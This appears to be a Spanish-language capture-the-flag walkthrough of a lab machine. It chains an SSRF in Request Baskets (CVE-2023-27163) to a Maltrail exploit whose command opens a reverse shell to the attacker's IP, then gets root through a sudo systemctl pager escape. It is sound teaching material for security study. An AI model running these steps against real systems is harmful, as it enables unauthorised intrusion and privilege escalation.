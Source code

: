 Hacemos el escaneo con nmap:
![[Pasted image 20240110113102.png]]
Accedemos al puerto 55555 por la web y nos encontramos con esto:
![[Pasted image 20240110113141.png]]
Si damos en create, se nos abre esta ventana:
![[Pasted image 20240110113538.png]]
Se crea un basket:
![[Pasted image 20240110113603.png]]
Y nos encontramos con que esta web es vulnerable a un Server-Side Request Forgery:
![[Pasted image 20240110113246.png]]
Y por aquí tenemos una PoC:
```bash
https://github.com/rvizx/CVE-2023-27163
```
Una vez visto esto, investigamos cómo explotar esto:
```bash
https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7
```
![[Pasted image 20240110181722.png]]
En la web vamos a establecer la siguiente configuración dentro del panel de ajustes y le cargamos en puerto 80 ya que estaba filtrado dentro del reporte de nmap:
![[Pasted image 20240110114021.png]]
Una vez que hayamos hecho esto, accedemos a nuestro basket y vemos algo de mail track, que en realidad es lo que corre por el puerto 80:
![[Pasted image 20240110114052.png]]![[Pasted image 20240110114100.png]]
Donde tenemos la versión:
![[Pasted image 20240110114125.png]]
Y tenemos forma de explotar vulnerabilidades de este servicio:
```bash
https://github.com/spookier/Maltrail-v0.53-Exploit
```
![[Pasted image 20240110114405.png]]
Nos bajamos el exploit de Python y lo probamos siguiendo las instrucciones:
![[Pasted image 20240110114436.png]]
Y le pasamos la url del basket que habíamos generado:
```bash
python3 exploit.py 10.10.16.6 443 http://10.10.11.224:55555/9e1s83l
```
![[Pasted image 20240110114504.png]]
Y obtenemos la reverse shell:
![[Pasted image 20240110114516.png]]
Y con sudo -l podemos ejecutar el siguiente comando como root:
![[Pasted image 20240110114802.png]]
En este punto simplemente ejecutamos como root el binario y con una exclamación le pasamos una bash:
```bash
sudo /usr/bin/systemctl status trail.service
```
![[Pasted image 20240110115006.png]]